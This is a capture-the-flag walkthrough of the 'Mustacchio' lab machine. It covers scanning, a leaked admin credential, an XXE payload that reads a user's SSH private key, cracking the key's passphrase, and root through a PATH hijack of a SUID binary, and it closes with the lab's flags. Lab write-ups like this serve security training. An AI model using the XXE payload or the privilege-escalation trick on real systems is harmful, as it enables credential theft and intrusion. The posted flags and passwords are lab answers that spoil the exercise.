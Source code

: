 # MUSTACCHIO

![](../.gitbook/assets/9467a25cbcc84755a81b1cd255efb5b8.png)

## NMAP SCAN

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
```

## FUZZING

![](../.gitbook/assets/4c9c4e03cbbe4c03b03c82bc6a6bc0cf.png)

### /CUSTOM

![](../.gitbook/assets/1f6c7eb103714a19941222f634df1bd8.png)

![](../.gitbook/assets/6c6a0777f6a64cf9b1fa5b13b48c8bd4.png)

![](../.gitbook/assets/5e937240c571438e99d75b405bf2148e.png)

```text
admin:bulldog19
```

## LOGIN

![](../.gitbook/assets/f569132f75a74e4282dc19ea326a19ec.png)

### In VIEW-SOURCE

![](../.gitbook/assets/bb808943b9384de589b9d72b19fe2338.png)

### TEST COMMENT

Something is wrong. We know that the application is using a xml request but the parameters were null.

![](../.gitbook/assets/2b021c64190042a9a2882c8ba304db47.png)

![](../.gitbook/assets/34c74fb2e7bb497b84984475a18a84e5.png)

In code, we see that is an example request in the server.

![](../.gitbook/assets/b6796bd2f8eb48bb976a83ec8ff929c8.png)

Lets see the xml request example

![](../.gitbook/assets/d280dccc139248b09d14676a456bde11.png)

## EXPLOIT XXE

* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection\#detect-the-vulnerability

![](../.gitbook/assets/a9ed523cbbe64a62a216450fbaaf54a8.png)

![](../.gitbook/assets/4b4a4cc714c240eabfd61941ada39c0e.png)

Remember the comment in the page code. Lets try to obtain the id\_rsa of barry to SSH Login.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:////home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>myself</author>
  <com>just a comment</com>
</comment>
```

![](../.gitbook/assets/a826c2412892461394bd46ab8ee15de0.png)

The id\_rsa is encrypted. Lets use John the Ripper.

![](../.gitbook/assets/15612c0adfc14a9baf424dc38bbd4211.png)

```text
urieljames
```

### SSH LOGIN

![](../.gitbook/assets/596c3a82e0024754be18c082cb405109.png)

## PRIVESC

### SUID FILES

There´s a SUID file interesting, running by root

![](../.gitbook/assets/54e4be6a088242dbb7e74a1575756488.png)

![](../.gitbook/assets/0d2f6b2d05a94f55a00605e598924c46.png)

When we run this SUID show us the log

![](../.gitbook/assets/e6dc4d67686d4677a477d2eb099a95fb.png)

With strings command, we found out that is calling the tail command without path

![](../.gitbook/assets/e8dd41d921114f198e39420bab319f08.png)

Lets Create a tail binary and add the to our path.

![](../.gitbook/assets/c2ea04d672ce4d628db9dfd721eb8574.png)

When we run the binary, WE BECAME ROOT!! :\)

![](../.gitbook/assets/262954bb135141158056a23189bd2b5c.png)

## FLAGS

### USER.TXT

```text
62d77a4d5f97d47c5aa38b3b2651b831
```

### ROOT.TXT

```text
3223581420d906c4dd1a5f9b530393a5
```

